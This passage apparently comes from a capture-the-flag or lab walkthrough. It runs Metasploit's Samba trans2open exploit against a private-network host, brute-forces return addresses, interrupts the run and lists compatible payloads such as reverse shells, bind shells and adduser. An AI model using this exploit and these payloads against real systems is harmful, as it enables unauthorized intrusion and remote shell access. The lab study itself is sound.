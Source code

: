 ```bash
[*] 192.168.0.14:139 - Trying return address 0xbfffeffc...
[*] 192.168.0.14:139 - Trying return address 0xbfffeefc...
[*] 192.168.0.14:139 - Trying return address 0xbfffedfc...
^C[-] 192.168.0.14:139 - Exploit failed [user-interrupt]: Interrupt
[-] run: Interrupted
```

Using this default [linux/x86/meterpreter/reverse_tcp](https://www.infosecmatter.com/metasploit-module-library/?mm=payload/linux/x86/meterpreter/reverse_tcp){:target="_blank" rel="noopener"} payload doesn't lead us anywhere so I'm sending a ^C kill signal by pressing CTRL+C to cancel the module. I'm checking what else payloads we can set for this module...

```bash
msf6 exploit(linux/samba/trans2open) > show payloads

Compatible Payloads
===================

   #   Name                                              Disclosure Date  Rank    Check  Description
   -   ----                                              ---------------  ----    -----  -----------
   0   payload/generic/custom                                             normal  No     Custom Payload
   1   payload/generic/debug_trap                                         normal  No     Generic x86 Debug Trap
   2   payload/generic/shell_bind_tcp                                     normal  No     Generic Command Shell, Bind TCP Inline
   3   payload/generic/shell_reverse_tcp                                  normal  No     Generic Command Shell, Reverse TCP Inline
   4   payload/generic/ssh/interact                                       normal  No     Interact with Established SSH Connection
   5   payload/generic/tight_loop                                         normal  No     Generic x86 Tight Loop
   6   payload/linux/x86/adduser                                          normal  No     Linux Add User
   7   payload/linux/x86/chmod                                            normal  No     Linux Chmod
   8   payload/linux/x86/exec                                             normal  No     Linux Execute Command
   9   payload/linux/x86/meterpreter/bind_ipv6_tcp                        normal  No     Linux Mettle x86, Bind IPv6 TCP Stager (Linux x86)
   10  payload/linux/x86/meterpreter/bind_ipv6_tcp_uuid                   normal  No     Linux Mettle x86, Bind IPv6 TCP Stager with UUID Support (Linux x86)
   11  payload/linux/x86/meterpreter/bind_nonx_tcp                        normal  No     Linux Mettle x86, Bind TCP Stager
   12  payload/linux/x86/meterpreter/bind_tcp                             normal  No     Linux Mettle x86, Bind TCP Stager (Linux x86)
   13  payload/linux/x86/meterpreter/bind_tcp_uuid                        normal  No     Linux Mettle x86, Bind TCP Stager with UUID Support (Linux x86)
   14  payload/linux/x86/meterpreter/reverse_ipv6_tcp                     normal  No     Linux Mettle x86, Reverse TCP Stager (IPv6)
   15  payload/linux/x86/meterpreter/reverse_nonx_tcp                     normal  No     Linux Mettle x86, Reverse TCP Stager
   16  payload/linux/x86/meterpreter/reverse_tcp                          normal  No     Linux Mettle x86, Reverse TCP Stager
   17  payload/linux/x86/meterpreter/reverse_tcp_uuid                     normal  No     Linux Mettle x86, Reverse TCP Stager
   18  payload/linux/x86/metsvc_bind_tcp                                  normal  No     Linux Meterpreter Service, Bind TCP
   19  payload/linux/x86/metsvc_reverse_tcp                               normal  No     Linux Meterpreter Service, Reverse TCP Inline
   20  payload/linux/x86/read_file                                        normal  No     Linux Read File
```